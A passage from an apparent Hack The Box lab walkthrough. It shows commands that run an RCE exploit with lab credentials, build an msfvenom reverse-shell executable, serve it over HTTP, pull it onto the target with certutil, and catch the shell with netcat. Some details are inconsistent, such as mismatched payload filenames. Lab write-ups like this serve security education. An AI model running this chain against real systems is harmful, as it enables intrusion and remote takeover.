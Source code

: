```
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c ipconfig
```

![](<../../../.gitbook/assets/image (374).png>)

Now that we have command execution we need to think about getting a proper reverse shell as this would be preferable to our current one. I created a payload with `msfvenom` as below:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4455 -f exe -o /home/kali/scripts/windows/revshell.exe
```

After this was created I hosted a python server in the directory where the payload is stored.

```
Python -m SimpleHttpServer 80
```

After this we can run the following command on the exploit to download the file and place it in a global writeable directory. The server the exploit command is run from is not writeable to the account we are running as.

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c cmd.exe -a '/c certutil.exe  -f -urlcache -split http://10.10.14.14/reverseshell.exe c:/users/public/reverseshell.exe'
```

After this has been completed we can confirm if the file has been downloaded by checking our python server logs.

![](<../../../.gitbook/assets/image (375) (1).png>)

After this we need to setup a `netcat` listener on our attacking machine.

```
nc -lvp 4455
```

Once this is setup we can run the exploit again this time calling the `msfvenom` payload we put in `C:\users\Public` earlier on.
